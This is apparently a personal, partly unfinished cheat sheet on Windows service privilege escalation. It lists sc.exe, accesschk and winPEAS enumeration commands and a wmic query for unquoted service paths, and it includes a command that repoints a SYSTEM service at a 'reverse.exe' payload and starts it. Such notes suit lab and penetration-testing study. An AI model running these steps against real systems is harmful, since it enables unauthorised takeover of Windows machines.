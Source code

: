# Service Exploits
-------

```cmd
sc.exe qc <name> REM query service configuration

sc.exe query <name> REM query current status

sc.exe config <name> <option>= <value> REM modify configuration option

net start/stop <name> REM start stop

accesschk.exe /accepteula -ucqv user regsvc REM check permissions for a service

accesscheck.exe /accepteula -uvw "C:\Program Files"
REM check permissions
```

```cmd
.\winPEASany.exe quiet serviceinfo
```

---------------

## Insecure Service Permissions

If the user has permissions to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to a malicious one; granted we can start/stop the service or restart the machine.

Using winpeas to enumerate services information: 
```cmd
.\winPEASany.exe quiet serviceinfo
```

```cmd
LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    daclsvc: WriteData/CreateFiles
```

Using access check to check permissions:
```cmd
.\accesschk.exe /accepteula -uwcqv user daclsvc
```

Query  service configuration:
```cmd
sc qc daclsvc
```

Query service status:
```cmd
sc query daclsvc
```

Set the binary path to the location of the payload:
```
sc config daclsvc binpath= "\"C:\Temp\reverse.exe""
```

Start the service:
```cmd
net start daclsvc
```

--------------

## Unquoted Service Paths

https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/
https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths

Checking for unquoted service paths:
```cmd
HKLM\SYSTEM\CurrentControlSet\Services\Servicename
```

```cmd
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Checking if we have write permissions over the directory using accesschk:

```cmd
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

Create an executable and place it in the folder; then restart the service.

-----------------

## Weak Registry Permissions

Lookout for **Modify any service registry** in winpeas

Once found, we can edit registry entry for a service; we can use powershell or accesschk to verify permissions:

```Powershell
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

```cmd
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

- [ ] Check more on this!!!!!!!

-------------------

## Insecure Service Executables

If the original service exe is modifiable by our user, we can replace it w a malicious one to get back a reverse shell.


-------------


## DLL Hijacking

If a DLL is loaded with an absolute path and is writable by our user, we can elevate privileges.

We can also abuse this if a DLL is missing from the system and our user has write access to the directory.
